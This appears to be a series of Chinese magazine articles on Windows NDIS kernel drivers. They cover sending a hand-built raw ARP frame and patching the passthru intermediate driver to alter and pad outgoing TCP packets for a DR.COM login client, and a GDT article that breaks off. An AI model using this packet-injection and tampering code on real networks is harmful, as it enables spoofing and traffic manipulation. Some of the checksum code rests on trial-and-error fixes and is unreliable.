我们先看看协议驱动有哪些回调函数，具体包括 BindAdapterHandler、UnbindAdapterHandler、OpenAdapterCompleteHandler、CloseAdapterCompleteHandler、ReceiveHandler、ReceivePacketHandler、TransferDataCompleteHandler、SendCompleteHandler、ResetCompleteHandler、RequestCompleteHandler、ReceiveCompleteHandler、StatusHandler、StatusCompleteHandler、PnPEventHandler 和 UnloadHandler。数量确实不少吧，乍看起来让人眼晕。不过后来我发现大部分函数一般都用不上，重要的函数只有少数几个。在以上函数里，除了 ReceivePacketHandler 和 UnloadHandler 是可选函数，其他都是必须的函数。所谓可选函数，就是说可以不用注册的函数，其他函数都必须在系统中进行注册。

#### 如何注册协议

我们已经了解到协议驱动无非是比一般驱动多了一组回调函数。那么，怎么在系统中注册这些回调函数呢？Windows 里有一个内核 API 函数 NdisRegisterProtocol，协议驱动使用这个函数注册自己的回调函数。NdisRegisterProtocol 的原型如下：

```c
VOID NdisRegisterProtocol(
    OUT PNDIS_STATUS Status,
    OUT PNDIS_HANDLE NdisProtocolHandle,
    IN  PNDIS_PROTOCOL_CHARACTERISTICS ProtocolCharacteristics,
    IN  UINT CharacteristicsLength
);
```

第 1 个参数 Status 返回函数执行的结果；第 2 个参数 NdisProtocolHandle 输出协议驱动的句柄；第 3 个参数 ProtocolCharacteristics 给出一个 NDIS_PROTOCOL_CHARACTERISTICS 结构的地址，这个结构里包含了以上回调函数的地址；第 4 个参数 CharacteristicsLength 是所给 NDIS_PROTOCOL_CHARACTERISTICS 结构的大小。这些参数很简洁，没有什么多余的东西，所以这个函数使用起来也很简单。下面给出 NdisRegisterProtocol 的调用示例，大家可以参考。

```c
NDIS_PROTOCOL_CHARACTERISTICS ProtocolChar;
NdisZeroMemory(&ProtocolChar, sizeof(ProtocolChar));
ProtocolChar.MajorNdisVersion = 4;
ProtocolChar.MinorNdisVersion = 0;
ProtocolChar.Name = NDIS_STRING_CONST("ProtocolName");
ProtocolChar.BindAdapterHandler = ProtocolBindAdapter;
ProtocolChar.UnbindAdapterHandler = ProtocolUnbindAdapter;
ProtocolChar.OpenAdapterCompleteHandler = ProtocolOpenAdapterComplete;
ProtocolChar.CloseAdapterCompleteHandler = ProtocolCloseAdapterComplete;
ProtocolChar.ReceiveHandler = ProtocolReceive;
ProtocolChar.ReceivePacketHandler = ProtocolReceivePacket;
ProtocolChar.TransferDataCompleteHandler = ProtocolTransferDataComplete;
ProtocolChar.SendCompleteHandler = ProtocolSendComplete;
ProtocolChar.ResetCompleteHandler = ProtocolResetComplete;
ProtocolChar.RequestCompleteHandler = ProtocolRequestComplete;
ProtocolChar.ReceiveCompleteHandler = ProtocolReceiveComplete;
ProtocolChar.StatusHandler = ProtocolStatus;
ProtocolChar.StatusCompleteHandler = ProtocolStatusComplete;
ProtocolChar.PnPEventHandler = ProtocolPNPEvent;

NDIS_STATUS status;
NDIS_HANDLE hProtocol;
NdisRegisterProtocol(&status, &hProtocol,
    &ProtocolChar, sizeof(ProtocolChar));
```

通过这些代码，以上回调函数的地址就注册到系统中了。此后，每当有特定的事件发生，系统便会调用相应的函数。现在我们需要做的是编写好这些回调函数，以处理发生的各种事件。

#### 为什么要绑定到适配器

前面已经注册了协议的回调函数，现在是不是可以发送和接收网络数据了呢？现在还不行。因为发送和接收网络数据有一个前提，就是必须绑定到适配器，然后才能发送和接收数据。我在学习的时候，对绑定到适配器这个步骤很是不解，真不知道它是做什么用的。现在，读者应该不会再对这个步骤感到困惑了。

#### 哪里有适配器的信息

前面我们已经了解到，BindAdapterHandler 是一个很重要的回调函数。顾名思义，这个回调函数就是用于绑定到适配器的。它的函数原型如下：

```c
VOID ProtocolBindAdapter(
    OUT PNDIS_STATUS Status,
    IN NDIS_HANDLE BindContext,
    IN PNDIS_STRING DeviceName,
    IN PVOID SystemSpecific1,
    IN PVOID SystemSpecific2
);
```

第 1 个参数 Status 用于输出绑定的结果，第 2 个参数 BindContext 是传递给 NdisOpenAdapter 内核函数的参数，第 3 个参数 DeviceName 是适配器的名字，适配器信息就是从此而来；后面两个参数都用不着，我们不必理会。每当系统里有新的适配器可用时，Windows 便会调用这个回调函数。这时新适配器的名字从函数的 DeviceName 参数传进来，我们在函数里就可以获得新的适配器了。

#### 怎么绑定到适配器

现在该真正绑定到适配器上面了，这个操作怎么完成呢？细心的读者肯定已经猜到了，使用上面提到的内核 API 函数 NdisOpenAdapter 来进行绑定。这个函数的原型如下：

```c
VOID NdisOpenAdapter(
    OUT PNDIS_STATUS Status,
    OUT PNDIS_STATUS OpenErrorStatus,
    OUT PNDIS_HANDLE NdisBindingHandle,
    OUT PUINT SelectedMediumIndex,
    IN PNDIS_MEDIUM MediumArray,
    IN UINT MediumArraySize,
    IN NDIS_HANDLE NdisProtocolHandle,
    IN NDIS_HANDLE ProtocolBindingContext,
    IN PNDIS_STRING AdapterName,
    IN UINT OpenOptions,
    IN PSTRING AddressingInformation OPTIONAL,
);
```

看到这个函数真是吓了一跳，不由得让人联想起了 CreateWindow。不过不要畏惧这些参数，我对这个函数的调用经验是：第 1 和第 2 个参数是输出函数执行的结果；第 3 个参数 NdisBindingHandle 输出绑定后得到的适配器句柄；第 4 个参数传入一个 UINT 类型变量的地址即可；第 5 个参数 MediumArray 定义一个 NDIS_MEDIUM 类型的变量，并初始化为 NdisMedium802_3，然后传入这个变量的地址；第 6 个参数 MediumArraySize 传入 1；第 7 个参数 NdisProtocolHandle 传入 NdisRegisterProtocol 函数输出的协议句柄；第 8 个参数 ProtocolBindingContext 是绑定上下文，后面它会从其他回调函数的参数里传入；第 9 个参数 AdapterName 传入回调函数 ProtocolBindAdapter 的参数 DeviceName；后面两个参数分别传 0 和 NULL。因为这个函数比较复杂，所以还是给出代码片段供大家参考。

```c
VOID ProtocolBindAdapter(
    OUT PNDIS_STATUS Status,
    IN NDIS_HANDLE BindContext,
    IN PNDIS_STRING DeviceName,
    IN PVOID SystemSpecific1,
    IN PVOID SystemSpecific2
)
{
    // do something
    NDIS_STATUS ErrorStatus;
    NDIS_HANDLE hAdapter;
    UINT mediumIndex;
    NDIS_MEDIUM mediumArray = NdisMedium802_3;
    NdisOpenAdapter(Status, &ErrorStatus, &hAdapter,
        &mediumIndex, &mediumArray, 1,
        xxx, // NdisRegisterProtocol 函数输出的协议句柄
        xxx, // 根据需要传入一个上下文
        DeviceName, 0, NULL);
}
```

根据需要，上下文可以是自己分配的内存，也可以是设备对象的扩展结构。经过以上代码绑定之后，我们便可以从 hAdapter 变量得到输出的适配器句柄。接下来，我们就可以使用这个句柄收发网络数据了。

#### 发送原始以太帧

经过前面的注册和绑定，现在终于可以发送数据了。在协议驱动里，发送网络数据使用的是内核函数 NdisSend。这个函数的原型如下：

```c
VOID NdisSend(
    OUT PNDIS_STATUS Status,
    IN NDIS_HANDLE NdisBindingHandle,
    IN PNDIS_PACKET Packet
);
```

第 1 个参数返回函数执行的结果；第 2 个参数指定适配器的句柄，也就是从 NdisOpenAdapter 函数返回的值；第 3 个参数是要发送的网络封包。下面通过一段发送 ARP 封包的代码，向大家演示用 NdisSend 函数发送网络数据的方法。

```c
PUCHAR MyARPPacketContent;
NDIS_STATUS Status;
PNDIS_BUFFER MyARPBuffer;
PNDIS_PACKET MyARPPacket;

MyARPPacketContent = ExAllocatePool(NonPagedPool, 42);

// 目的 MAC
MyARPPacketContent[0] = 0x00;
MyARPPacketContent[1] = 0x15;
MyARPPacketContent[2] = 0xF2;
MyARPPacketContent[3] = 0xC1;
MyARPPacketContent[4] = 0xB7;
MyARPPacketContent[5] = 0x26;

// 源 MAC
MyARPPacketContent[6] = 0x00;
MyARPPacketContent[7] = 0x22;
MyARPPacketContent[8] = 0x19;
MyARPPacketContent[9] = 0x0E;
MyARPPacketContent[10] = 0x2D;
MyARPPacketContent[11] = 0x1F;

// 协议类型
MyARPPacketContent[12] = 0x08;
MyARPPacketContent[13] = 0x06;

// 硬件类型
MyARPPacketContent[14] = 0x00;
MyARPPacketContent[15] = 0x01;

// 协议类型
MyARPPacketContent[16] = 0x08;
MyARPPacketContent[17] = 0x00;

// 硬件地址长度
MyARPPacketContent[18] = 0x06;

// 协议地址长度
MyARPPacketContent[19] = 0x04;

// 操作
MyARPPacketContent[20] = 0x00;
MyARPPacketContent[21] = 0x01;

// 发送者硬件地址
MyARPPacketContent[22] = 0x00;
MyARPPacketContent[23] = 0x22;
MyARPPacketContent[24] = 0x19;
MyARPPacketContent[25] = 0x0E;
MyARPPacketContent[26] = 0x2D;
MyARPPacketContent[27] = 0x1F;

// 发送者 IP 地址
MyARPPacketContent[28] = 0xC0;
MyARPPacketContent[29] = 0xA8;
MyARPPacketContent[30] = 0x00;
MyARPPacketContent[31] = 0x25;

// 目的硬件地址
MyARPPacketContent[32] = 0x00;
MyARPPacketContent[33] = 0x15;
MyARPPacketContent[34] = 0xF2;
MyARPPacketContent[35] = 0xC1;
```

```c
MyARPPacketContent[36] = 0xB7;
MyARPPacketContent[37] = 0x26;

// 目的IP地址
MyARPPacketContent[38] = 0xC0;
MyARPPacketContent[39] = 0xA8;
MyARPPacketContent[40] = 0x00;
MyARPPacketContent[41] = 0x21;

// 分配一个缓冲区描述符
NdisAllocateBuffer(&Status, &MyARPBuffer,
hBufferPool, MyARPPacketContent, 42);

// 分配一个包描述符
NdisAllocatePacket(&Status, &MyARPPacket,
hPacketPool);

// 将缓冲区描述符链入包描述符
NdisChainBufferAtFront(MyARPPacket,
MyARPBuffer);

// 发送
NdisSend(&Status, hAdapter, MyARPPacket);
```

执行以上代码即可发送一个ARP封包。大家也可以根据自己的需要，任意构造其他类型的封包。因为我们现在编写的是协议驱动，所以可以不受任何限制地操作网络数据。虽然上面已经说了很多，但还有接收数据的部分没有介绍，就留给大家自己去研究吧。希望本文能够对想学习网络驱动的朋友有所帮助。

- 前置知识：VC
- 关键词：编程、NDIS、驱动

## NDIS中间层
#### 过滤驱动修改封包

文/图 夜枫[xfill] 成都东软信息技术学院 SOVO 凝聚科技



网络驱动程序接口规范（NDIS），是微软为网络接口卡（NIC）的局域网驱动程序提供的一种标准应用程序接口（API）。NDIS适用于服务器或工作站。NDIS标准支持计算机通过不同的通信协议与网络相连，如TCP/IP、IPX、NetBIOS、AppleTalk等。

NDIS在数据链路层（第2层）的媒体控制层（MAC）执行其功能。NIC硬件实现过程与媒体访问控制（MAC）设备驱动程序紧密相关，这样利用通用编程接口，就可以访问同一媒体（如以太网）的所有网络接口卡。其次，NDIS还具有关于网络驱动程序硬件的功能库，主要用于MAC驱动和更高级的协议驱动（如TCP/IP），利用功能库的各种功能支持，使得MAC和协议驱动的开发过程变得相对简单，同时在某种程度上，也掩盖了平台的依赖特性。此外，通过NDIS，也可以帮助网络驱动程序维护状态信息和参数，包括链接或其他系统值中涉及的指针功能、句柄及参数块等。

NDIS支持以下网络驱动类型：小端口驱动（Miniport Driver）、中间层驱动（Intermediate Driver）和协议驱动（Protocol Driver）。

#### 应用简介

通过图1，我们可以看到NDIS是基于网络模型的最底层。简单来说，NDIS Miniport驱动是直接控制网卡设备，进行发包、接包等操作。但是因为网卡的型号不同，不同的网卡对应不同的驱动，所以这个驱动通常是由网卡制造商提供的。而上层来说对应了一个协议驱动，Protocol Driver这个驱动一般是操作系统自带，对上层驱动提供统一的接口。而协议驱动和MINI驱动之间还有一种驱动叫做中间层驱动（Intermediate Driver），也称IM驱动。不少见，绝大部分的ARP防火墙都是用这种驱动实现的，包括一些比较好的防火墙也是基于这个驱动实现的。通过IMD驱动，我们可以过滤所有经过网卡的数据，当然也可以实现发送自定义的数据或者接收自定义的数据。



图1

其实所谓的IMD驱动，网上有一句很经典的形容：“中间层插入网卡和协议层之间，对上面的协议层表现为一个虚拟的微端口网卡结构，而对下面的网卡则表现为一个协议层的结构。所以，无论是网卡接收并上传的数据报，还是上层要下送至网卡发送的数据报，无一例外地要经过中间层。”

#### 技术要点

NDIS编写起来相对比较麻烦，不过幸运的是，微软的DDK自带了一个典型的IMD驱动，保存在src\network\ndis\passthru下，叫做passthru。很多防火墙都是修改的这个驱动。这个驱动并没有实现任何功能，只是将流过它的数据新建了一个Packet，然后将原Packet的数据拷贝到新的Packet里发送出去，所以叫做passthru。我们也可以通过简单地修改这个驱动实现一个简单的防火墙功能，但是网上大多数文章都是介绍修改它成为一个防火墙的，这里我不想写防火墙，刚好最近在研究DR.COM协议，就差修改封包了，所以研究了好几天通过NDIS实现修改封包的方法，期间遇到过很多问题，不过目前解决了大部分，不敢独享，特拿来和大家分享。

#### 代码解析

下面我们一步一步分析和改写passthru，来实现修改封包的功能。

在passthru代码里，我们可以看到“.c”的文件分为3个，找到miniport.c，可以看到一些函数，其中有两个我们比较感兴趣，分别为MPSendPackets和MPSend。据说新的网卡一般都是用MPSendPackets函数，这个函数效率更高，而为了和以前兼容保留了MPSend函数。我测试时发现我的机子使用的是MPSendPackets函数，所以我也就直接修改这个函数了。

我们分析一下代码可以看出，在MPSendPackets函数里申请了一个MyPacket的数据包，并且将原来的Packet包的数据拷贝到新的包里，用NdisSend函数发送出去。不过我查了一下DDK带的Document，发现了另外一个函数NdisSendPackets。通过函数名，我分析应该是上层协议驱动要发送数据包的时候调用的，应该是下层NIC驱动的MPSendPackets函数。因为IMD驱动对上层表示为一个NIC驱动，所以调用到我们驱动的MPSendPackets函数里；那么对应下层，我们表示为一个协议驱动，也就是说我们应该调用下层的SendPackets接口，猜测应该使用NdisSendPackets函数。经过修改后，我发现使用NdisSendPackets函数也可以，所以应该如我所想，微软在MPSendPackets函数里调用NdisSend应该是为了更好地兼容。

上面是对原本代码的解析。下面我们先实现一个简单的功能：修改TCP数据包内容的第1个字节为大写字母A。因为NDIS的Packet中的数据并不是保存在一整块内存中，而是通过链表的形式将ETH头部和IP头、协议头、数据等连接在一起的，而链表保存在MyPacket->Private.Head，实际上这个元素就是个MDL，每个MDL的Next指针是下一个MDL的指针，最后一个的Next为空，并储存在MyPacket->Private.Tail中，所以通过遍历链表，我们可以得到这个数据。对于这段实现，我直接使用了网上的一段代码。

```c
Status = NdisAllocateMemoryWithTag(&PacketContent, 2048, TAG);
if (Status != NDIS_STATUS_SUCCESS)
    return;
NdisZeroMemory(PacketContent, 2048);
```

```c
NdisQueryBufferSafe(MyPacket->Private.Head,
&pBuf, &BufLength, HighPagePriority);
NdisMoveMemory(PacketContent, pBuf, BufLength);
i = BufLength;
pNext = MyPacket->Private.Head;
for (;;)
{
    if (pNext == MyPacket->Private.Tail)
        break;
    pNext = pNext->Next;      // 指针后移
    if (pNext == NULL)
        break;
    NdisQueryBufferSafe(pNext, &pBuf, &BufLength, 32);
    NdisMoveMemory(PacketContent + i, pBuf, BufLength);
    i += BufLength;
}
```

这样，我们整个包的数据就都保存在PacketContent里了，i就是整个包的长度。这里的数据包结构应该是ETH_HEADER+IP_HEADER+TCP_HEADER(UDP_HEADER)，所以我们先要判断是什么协议，这里只过滤了TCP。

```c
if (((char*)PacketContent)[12] == 8 &&
    ((char*)PacketContent)[13] == 0 &&
    ((char*)PacketContent)[23] == 6)
{
    ...
}
```

下面就是关键代码了。修改封包，我们首先要得到数据的偏移。我先定义了几个结构体，具体如下：

```c
#pragma once
#pragma pack(push, 1)
typedef struct _ETHHDR
{
    unsigned char dst_mac[6];
    unsigned char src_mac[6];
    unsigned short eth_t;
} ETHHDR, *PETHHDR;

typedef struct tcphdr  // tcp头
{
    USHORT th_sport;   // 16位源端口
    USHORT th_dport;   // 16位目的端口
    unsigned int th_seq;   // 32位序列号
    unsigned int th_ack;   // 32位确认号
    unsigned char th_lenres;
    // 4位首部长度 + 6位保留字中的位
    unsigned char th_flag; // 2位保留字 + 6位标志位
    USHORT th_win;    // 16位窗口大小
    USHORT th_sum;    // 16位校验和
    USHORT th_urp;    // 16位紧急数据偏移量
} TCP_HEADER, *PTCP_HEADER;

typedef struct _iphdr   // ip头
{
    unsigned char h_verlen;
    // 4位首部长度 + 4位IP版本号
    unsigned char tos; // 8位服务类型TOS
    unsigned short total_len; // 16位总长度（字节）
    unsigned short ident; // 16位标识
    unsigned short frag_and_flags; // 3位标志位
    unsigned char ttl; // 8位生存时间TTL
    unsigned char proto;
    // 8位协议号(TCP、UDP或其他)
    unsigned short checksum; // 16位IP首部校验和
    unsigned int sourceIP; // 32位源IP地址
    unsigned int destIP;   // 32位目的IP地址
} IP_HEADER, *PIP_HEADER;

struct // tcp伪头
{
    unsigned long saddr; // 源地址
    unsigned long daddr; // 目的地址
    char mbz; // 置空
    char ptcl; // 协议类型
    unsigned short tcpl; // TCP长度
} psd_header;

typedef struct _PACKET
{
    ETHHDR eth;
    IP_HEADER ip;
    TCP_HEADER tcp;
} PACKET, *PPACKET;
#pragma pack(pop)
```

以上分别是ETH头、IP头、TCP头，以及一个整体的PACKET结构体。通过PacketContent+sizeof(PACKET)，我们就可以得到数据的偏移。

```c
ipPacket = (PPACKET)PacketContent;
pData = PacketContent + sizeof(PACKET);
DataSize = i - sizeof(PACKET);
```

当然，我们还要得到一个数据包的内容指针，直接强制类型转换得到ipPacket，这个变量是一个PPACKET类型，后面我们会用到。现在我们遇到了一个问题：TCP的连接建立时要经过3次握手。那么我们如果要建立一个连接，首先发送出去的就是SYN标志的TCP数据包，对方回应SYN+ACK标志的数据包，然后本机回应ACK标志包，这样才建立了连接。我们不能在每个数据包都附加上我们的数据，这样会影响正常的连接建立。想到这个问题，我用ethereal抓包，发现附带数据的数据包都是PSH+ACK标志，对方收到后回复ACK标志包，那么我们可以只对PSH+ACK标志的包进行过滤，所以这里要有个判断。

```c
if (ipPacket->tcp.th_flag == 0x0018) {
    ...
}
```

既然得到了pData，也就是包的内容，我们要修改就很简单了，直接“pData[0] = 'A'”即可。但很不幸，测试后发现直接修改，每次对方要等大概7秒才能接收到数据，而且如果发送数据过快，对方就直接收不到数据包。这个问题我想了很久，改来改去都没成功。后来抓包分析，发现这个时候TCP校验和不正确，并且接收方是没有任何反应的，发送方发现对方没反应，就隔一段时间重新发送，而这个发送应该是经过了重新封包，校验和正确了，所以接收方才能接收到修改后的数据。

知道了原因，就很容易想到解决的方法：我们需要重新计算校验和。我找了几个DDOS程序的代码，发现都是直接将一个TCP伪首部PSD_HEADER和TCP_HEADER进行计算得到校验码，而我修改的数据发现校验和不对，很明显校验的时候是带了数据的。经过几次研究发现校验和计算方法是PSD_HEADER + TCP_HEADER + 数据。

```c
ptcp_header = (PTCP_HEADER)(PacketContent + sizeof(ETHHDR) + sizeof(IP_HEADER));
tcphdrlen = HTONS(ipPacket->ip.total_len) - sizeof(IP_HEADER);
memcpy(pCheckSum, ptcp_header, tcphdrlen);
// 修改校验和为0
((PTCP_HEADER)pCheckSum)->th_sum = 0;
// 填充TCP伪首部
psd_header.saddr = ipPacket->ip.sourceIP;
psd_header.daddr = ipPacket->ip.destIP;
psd_header.mbz = 0;
psd_header.ptcl = 6; /* IPPROTO_TCP */
psd_header.tcpl = HTONS(sizeof(TCP_HEADER));
```

```c
// 计算TCP首部校验和
NdisZeroMemory(SendBuf, 2048);
NdisMoveMemory(SendBuf, &psd_header, sizeof(psd_header));
NdisMoveMemory(SendBuf + sizeof(psd_header), pCheckSum, tcphdrlen);
tcp_header.th_sum = checksum((USHORT*)SendBuf, sizeof(psd_header) + tcphdrlen);
tcp_header.th_sum = HTONS(HTONS(tcp_header.th_sum) - DataSize);
ipPacket->tcp.th_sum = tcp_header.th_sum;
```

但是测试后还是不对，不过值很接近。后来偶然发现算出来的校验和减去数据长度才是实际的校验和，不过Intel采用的字节序和网络字节序高低位顺序刚好是反的，所以用到了两次HTONS。这个函数实际上就是winsock2.h中的htons，不过因为NDIS.h中没有带这个函数，所以我用一个宏手动来实现，很简单。

```c
#define HTONS(a) (((0xFF & a) << 8) + ((0xFF00 & a) >> 8))
```

举个例子，假设计算出来的校验和是0x29a7，那么实际在封包里，排列方式是“a7 29”。假设数据长度是2字节，用ethereal抓包显示的正确校验和是0x27a7，所以先用HTONS将字节序反过来，得到0xa729，然后减去2得到0xa727，再返回去得到0x27a7。当然，我的实现方法有点繁琐了，以前看小鱼的一个网络程序直接使用XCHG指令将高低位反过来也是可以的。

因为当时不断修改的原因，代码写得很乱。我在发送处是将修改后的PacketContent重新封入一个NDIS_PACKET包，这里直接使用原来的MyPacket，所以发送代码如下：

```c
NdisAllocateBuffer(&Status, &pDataBuffer, pAdapt->SendPacketPoolHandle, PacketContent, i);
NdisChainBufferAtFront(MyPacket, pDataBuffer);
NdisFreeMemory(PacketContent, 2048, 0);
```

继续执行下去，会执行到本身的NdisSend函数将数据发送出去。不过按照开始所说的，直接使用如下代码也是可以的。

```c
// NdisSendPackets(pAdapt->BindingHandle, &MyPacket, 1);
return;
```

至此，我们就实现了一个修改封包的功能。不过开始说了，写这个程序实际上是为了自己写个DR.COM登录器。DR.COM采用的方法是TCP连接时，第1个数据包前面添加一个16字节的隧道码，后面的数据都不添加，而UDP则是每个包都添加，所以我们要实现的是添加数据，修改数据只是为了添加数据做准备。这里我直接定义了16个字节的字母A作为添加数据。

```c
CHAR PaddingData[] = {0x41, 0x41, 0x41, 0x41, \
0x41, 0x41, 0x41, 0x41, \
0x41, 0x41, \
0x41, 0x41, 0x41, 0x41, \
0x41, 0x41};
```

修改原来的pData加上新的数据，当然加之前要保证PacketContent足够大。不过我们分配了2048字节，应该是足够了，不过最好还是动态判断、动态申请，这里为了方便，是直接写的。

要添加数据，就要申请一块内存，将添加的数据和原始数据拷贝到新的内存中，然后拷贝回原来的PacketContent。

```c
NdisAllocateMemoryWithTag(&pNewData, DataSize + 16, TAG);
NdisZeroMemory(pNewData, DataSize + 16);
memcpy(pNewData, PaddingData, 16);
memcpy(pNewData + 16, pData, DataSize);
// 重新计算长度
memcpy(pData, pNewData, DataSize + 16);
NdisFreeMemory(pNewData, DataSize + 16, 0);
DataSize += 16;
i += 16;
```

数据添加了，长度当然也要相应地加16。不过测试发现这样发送出去的数据又接收不到了。用ethereal抓包发现数据包还是原来的长度，所以证明IP头或者TCP头某个位置信息保存了数据的长度。经过反复试验，发现是ipPacket->ip.total_len记录了整个包除去ETH头的长度，也就是IP_HEADER+TCP_HEADER+数据的长度，所以我们修改这个值加上16就可以了。

```c
ipPacket->ip.total_len = HTONS(HTONS(ipPacket->ip.total_len) + 16);
```

可惜，测试发现还是收不到数据，继续抓包发现这次的问题所在是在IP头的checksum上，校验和不正确了，原因很简单，因为我们修改了IP头的内容。找了几个DDOS工具的代码，发现这些工具都是这样写的：

```c
// 计算IP校验和
memcpy(SendBuf, &ip_header, sizeof(ip_header));
memcpy(SendBuf + sizeof(ip_header), &tcp_header, sizeof(tcp_header));
memset(SendBuf + sizeof(ip_header) + sizeof(tcp_header), 0, 4);
datasize = sizeof(ip_header) + sizeof(tcp_header);
ip_header.checksum = checksum((USHORT*)SendBuf, datasize);
```

这里是用IP_HEADER+TCP_HEADER进行校验计算的。可惜测试后依然发现校验和不对，而且差距甚远。在研究的时候偶然想到一个问题：开始我修改数据包时只是TCP头校验出错，而修改了TCP头校验后可以正常收发了。只是修改了IP头内容时校验才出错的，所以我猜想IP头的校验应该只是校验本身，所以猜想代码应该是这样的：

```c
//--------------计算IP校验--------------
pip_header = (PIP_HEADER)(PacketContent + sizeof(ETHHDR));
pip_header->checksum = 0;
pip_header->checksum = checksum((USHORT*)pip_header, sizeof(IP_HEADER));
```

测试后正如我所想，IP头和TCP头的校验都正确了，并且发送后也能接收到了。不过现在又遇到了一个问题，就是发送给对方后，对方也能正常显示出来，但是PSH+ACK包接收到后，对方是要回复一个ACK包的，表示数据收到和正确性的校验，而我修改了以后，对方回应的数据包的ACK就不正确了，所以会造成发送方反复发送。但我猜想经过DRCOM交换机后去掉16字节隧道码后，应该就不存在这个问题了。

#### 小结

至此，一个修改封包的程序就算完成了。其实本来我想写的只是修改数据，因为添加数据为什么会造成反复发送我也拿不准原因，不过我猜想是ACK包的校验不正确造成的。想到网上很多计算IP校验和的错误文章，所以不得不写出来纠正一下。

其实NDIS驱动没有想象的那么复杂，通过简单的修改，我们可以很容易地实现一个类似WinPcap的工具。值得一提的是，WinPcap其实也是用NDIS驱动实现的。

前置知识：VC  
关键词：编程、GDT、处理器

## 枚举CPU的全局描述符表

文/图 虎子哥哥

在《利用调用门执行特权代码》一文中，就涉及了CPU的全局描述符表，英文缩写是GDT。该文没有详细讲述GDT里每个描述符的含义，本文想对此作一个补充。这里我模仿狙剑实现了一个驱动程序，可以解析出GDT中每一个表项的含义。

system为1，表示这个描述符是数据段、堆栈段描述符或代码段描述符，称为普通描述符；如果system为0，就表示此描述符是LDT、TSS描述符或者门描述符，称为系统描述符。图1清晰地表示出了各种描述符之间的分类关系。

#### 描述符的分类

据我所知，IA32处理器含有这些类型的描述符：数据段和堆栈段的描述符、代码段的描述符、LDT的描述符、TSS的描述符和4种门描述符。数量确实不少，但这些都是8个字节大小的数据结构，并且有一些字段是完全相同的。

